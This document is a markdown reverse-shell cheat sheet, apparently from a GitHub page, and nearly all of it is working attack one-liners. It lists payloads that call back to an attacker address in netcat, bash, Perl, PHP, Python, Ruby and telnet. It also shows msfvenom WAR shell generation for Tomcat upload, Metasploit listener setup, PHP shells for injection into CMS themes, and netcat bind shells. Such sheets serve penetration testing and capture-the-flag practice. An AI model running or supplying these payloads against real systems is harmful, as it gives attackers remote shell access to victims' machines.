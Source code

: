 ### Reverse Shells
#### Listensers
```
nc -nlvp 1234
```
- Always set up a netcat listener before executing a bash reverse shell

-You can also use multi handler from metasploit to catch incoming reverse shells
```
msfconsole
use exploit /multi/handler
set LHOST 172.16.6.1
set LPORT 1234
run
```
#### Netcat Reverse Shell
```
nc 172.16.6.1 1234 -e /bin/sh
```
- Standard netcat reverse shell (only works with some versions of nc)

#### Bash Reverse Shells
```
bash -i >& /dev/tcp/172.16.6.1/1234 0>&1
```
- Basic bash reverse shell
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc 172.16.6.1 1234 >/tmp/f
```
- Another bash reverse shell

#### Perl Reverse Shell
```
perl -e 'use Socket;$i="172.16.6.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### PHP Reverse Shell
```
php -r '$sock=fsockopen("172.16.6.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
- Standard PHP reverse shell typically used for injection on the terminal enviroment or into a web application
```
$sock=fsockopen("172.16.6.1", 1234);exec("/bin/sh -i <&3 >&3 2>&3");
```
- This php shell is used when you can inject php code into a theme file of a CMS (think wordpress)

#### Python Reverse Shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.16.6.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
- Standard python reverse shell

#### Ruby Reverse Shell
```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("172.16.6.1","1234");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
- Linux ruby reverse shell
```
ruby -rsocket -e 'c=TCPSocket.new("172.16.6.1","1234");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
- Windows ruby reverse shell

#### War Reverse Shell
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.6.1 LPORT=1234 -f war > /home/kali/Documents/shell.war
```
- This will generate a war file for upload on the Tomcat CMS. Once uploaded click on the shell option to activate it.
- Catch this shell with multi/handler
```
msfconsole
use exploit /multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 172.16.6.1
set LPORT 1234
run
```

#### Reverse shell over the Telnet Protocol
```
mknod a p; telnet 172.16.6.1 1234 0<a | /bin/sh 1>a
```
- This reverse shell makes a special character file (mknod) uses telnet to call back and direct standard output to the character file via the binary /bin/sh

### Bind Shells
#### Netcat Bind Shell
```
nc -nlvp 1234 -e /bin/sh
```
- This is executed on the target box and waits for an incoming connection
```
nc [target box ip] 1234
```
- This is executed on your attack box to connect to the listener on the target




